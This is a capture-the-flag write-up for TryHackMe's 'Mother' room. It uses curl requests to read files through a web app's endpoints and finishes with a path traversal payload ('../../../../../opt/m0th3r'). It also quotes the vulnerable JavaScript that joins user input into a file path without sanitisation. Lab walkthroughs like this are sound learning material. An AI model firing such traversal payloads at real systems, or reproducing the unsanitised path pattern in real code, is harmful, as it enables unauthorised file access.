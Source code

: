 # Mother

A writeup for the room [Mother](https://tryhackme.com/room/codeanalysis) on TryHackMe.

> Exploit flaws found in Mother's code to reveal its secrets.

<Image src={require("./logo.webp").default} height="256" />

### What is the number of the emergency command override?

It is written in the description of the room.

### What is the special order number?

If we go to the home page, we can see different boxes that explain a little what the application can do. We are logged in as "Crew Member" without any permissions.

<Image src={require("./1-homepage.webp").default} />

<Image src={require("./2-classified.webp").default} />

We can see that there is a tool called Alien Loader that allows to upload yaml files to the server. It is the same tool described in the room description.

Since Alien Loader allows us to upload yaml files, we can try to use the available endpoint for yaml files to download 100375.yaml

<Image src={require("./3-yaml.webp").default} />

Run this command to make the request (remember to change the IP):

```bash
curl -X POST -d '{"file_path":"100375.yaml"}' -H "Content-Type: application/json" MACHINE_IP/yaml
```

The response will contain the special order number.

```
FOR SCIENCE OFFICER EYES ONLY  special SECRETS:  REROUTING TO: api/nostromo ORDER: 0rd3rXYZ.txt [****]
UNABLE TO CLARIFY. NO FURTHER ENHANCEMENT.
```

Now we know the number of the special order.

Be careful with the paths, the yaml endpoint is directly under root, while the Nostromo ones are under /api.

```
POST /yaml
POST /api/nostromo
POST /api/nostromo/mother

{
  "file_path": "path/to/file"
}
```

### What is the hidden flag in the Nostromo route?

The flag can be obtained by downloading the special order file from the nostromo endpoint.

<Image src={require("./4-nostromo.webp").default} />

The request:

```bash
curl -X POST -d '{"file_path":"0rd3r937.txt"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo
```

The result:

```
Mother
FOR SCIENCE OFFICER EYES ONLY 
SPECIAL ORDER 937 [............

PRIORITIY 1 ****** ENSURE RETURN OF ORGANISM FOR ANALYSIS****]

ALL OTHER CONSIDERATIONS SECONDARY

CREW EXPENDABLE

Flag{--REDACTED--}
```

### What is the name of the Science Officer with permissions?

After calling the previous endpoints, we can see that the username at the top of the homepage has changed.

<Image src={require("./5-ash.webp").default} />

### What are the contents of the classified "Flag" box?

Now that we are logged in as Ash when we go to the flag section we can finally see the contents of the classified box.

### Where is Mother's secret?

In the description of the room, it is indicate that the goal is to obtain the file secret.txt in the mother folder.

Now that we have activated the two other endpoints for authentication, we can try to call the mother one.

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```

This will return the contents of the secret.txt file.

### What is Mother's secret?

All endpoints implemented in the routes file, including the mother endpoint, are vulnerable to path traversal. 

The user can insert any value and it will be concatenated to the base path without any sanitization.

```js
let file_path = req.body.file_path;
const filePath = `./public/${file_path}`;
```

So, if we send something like ../../../../../opt/m0th3r the value of filePath will be:

```
./public/../../../../../opt/m0th3r -> /opt/m0th3r
```

Send this request for the final flag:

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```
